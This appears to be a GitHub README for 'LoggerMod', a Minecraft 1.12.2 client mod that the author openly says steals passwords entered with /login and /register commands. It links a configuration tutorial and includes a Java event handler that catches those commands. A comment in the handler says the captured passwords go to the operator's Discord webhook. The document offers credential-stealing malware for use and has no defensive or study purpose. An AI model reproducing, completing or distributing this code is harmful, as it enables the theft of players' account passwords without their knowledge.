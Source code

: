 # 🔌 LoggerMod
This mod on 1.12.2 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself  
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");
        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }

``` 

# 📱 Screenshots
![Screenshot_20220524_201426](https://user-images.githubusercontent.com/100863585/170095387-ad0eaa4b-b844-4b3b-8d5e-70b9012abe43.png)
